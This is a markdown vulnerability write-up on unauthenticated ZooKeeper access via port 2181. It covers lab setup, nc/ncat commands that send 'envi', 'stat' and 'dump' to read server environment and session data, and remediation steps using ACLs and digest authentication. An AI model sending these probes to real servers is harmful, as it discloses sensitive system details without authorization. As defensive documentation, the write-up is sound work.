



# Unauthorized Access Vulnerability in ZooKeeper

## Vulnerability Description

ZooKeeper is defaulted to open on port 2181 and without any access control, an attacker can gain a large amount of sensitive information about the system, including the system name and Java environment, by executing the envi command.

## Environment Setup

The default open port for Zookeeper is 2181.

```bash
wget https://archive.apache.org/dist/zookeeper/zookeeper-3.4.10/zookeeper-3.4.10.tar.gz

tar -zxvf zookeeper-3.4.10.tar.gz
cd zookeeper-3.4.10/
cd conf/
vi zoo.cfg
### Configure standalone mode
tickTime=2000
dataDir=/tmp/zookeeper/data
dataLogDir=/tmp/zookeeper/logs
clientPort=2181

bin/zkServer.sh start   //start
### Start the client connection to the server
bin/zkCli.sh -server localhost:2181
```



## Vulnerability Exploitation

The following command can be used to remotely retrieve the environment of the server:

```
echo envi | nc 192.168.32.131 2181
```



stat: Lists statistics about performance and clients connecting.

```
echo stat |nc 192.168.32.131 2181
```



ruok: Tests if the server is running in a non-error state. `echo ruok |ncat 127.0.0.1 2181`

reqs: Lists outstanding requests. `echo reqs |ncat 127.0.0.1 2181`

envi: Prints detailed information about the service environment. `echo envi |ncat 127.0.0.1 2181`

dump: Lists outstanding sessions and ephemeral nodes. `echo dump |ncat 127.0.0.1 2181`

## Fix Recommendations

Prohibit exposing Zookeeper directly to the public network Add access control, choose the corresponding method according to the situation (authenticated user, username and password)

### Bind specified IP access (recommended):

1. Login to zookeeper

```ruby
./zkCli.sh -server <IP>:<port>
```

2. View current permissions:

```undefined
getAcl /
```

3. Add accessible IP

```undefined
setAcl / ip:192.168.1.xx:cdrwa,ip:192.168.1.xx:cdrwa
```

4. Check if it was added normally

```undefined
getAcl /
```

Unauthorized people can also connect, but an error `KeeperErrorCode = NoAuth for /` will be reported when viewing the node, localhost will not work, and only accessible IP can be accessed.

```csharp
[zk: localhost:2181(CONNECTED) 0] ls /
KeeperErrorCode = NoAuth for /
[zk: localhost:2181(CONNECTED) 1] 
```

**Rollback method:** Access using the IP set before:

```ruby
./zkCli.sh -server <IP>:<port>
```

Set to be accessible by everyone:

```undefined
setAcl / world:anyone:cdrwa
```


### Set up authentication

Configure appropriate access permissions for ZooKeeper.

1. Add an authentication user addauth digest username:password in plain text

```css
addauth digest user1:password1 
```

2. Setting permissions

   setAcl /path auth:username:password in clear text:permission

   setAcl /path digest:username:password in encrypted form:permission

```bash
setAcl /test auth:user1:password1:cdrwa 
```

3. Viewing Acl settings

```undefined
getAcl /path 
```